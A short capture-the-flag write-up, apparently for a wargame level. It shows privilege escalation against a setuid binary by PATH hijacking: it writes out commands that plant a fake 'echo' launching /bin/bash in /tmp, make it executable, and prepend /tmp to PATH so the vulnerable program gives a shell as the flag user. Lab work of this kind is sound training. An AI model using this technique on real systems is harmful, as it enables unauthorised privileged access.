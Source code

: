 https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code

https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

File has a weird CHMOD.

Security threat, can replace env variable

`echo "/bin/bash" > /tmp/echo`

`chmod 777 /tmp/echo && export PATH=/tmp:$PATH`

Do command `env` and see path went from:

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

to 

PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games

then execute script `./level03`

You are now flag3
